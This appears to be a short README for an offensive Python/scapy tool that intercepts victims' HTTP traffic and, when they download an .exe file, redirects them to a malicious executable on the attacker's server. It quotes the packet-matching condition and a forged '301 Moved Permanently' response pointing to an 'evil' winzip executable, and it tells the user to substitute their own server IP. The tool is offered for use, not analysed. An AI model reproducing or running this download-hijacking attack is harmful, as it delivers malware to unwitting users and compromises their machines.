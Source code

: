A download-replacement program is a program that causes a victim to download a malicious file that resides on the attacker's server when the victim downloads an EXE-formatted file.

usage :
ex) python replaces_downloads_https.py

********************Cautions when using the program****************************
The caveat to using this program is that the attacker needs to download the file from his server address, so you need to use the
if b".exe" in (scapy_packet[scapy.Raw].load and b"192.168.111.158" not in scapy_packet[scapy.Raw].load)
--> In that part, you need to change the "192.168.111.158" part to your own SERVER IP.

modified_packet = set_load(scapy_packet,"HTTP/1.1 301 Moved Permanently\nLocation: http://192.168.111.158/evil/winzip28-pp.exe\n\n")
--> In the part where it says Location: http://192.168.111.158/evil/winzip28-pp.exe를 you need to change it to the path you want to replace on your server.

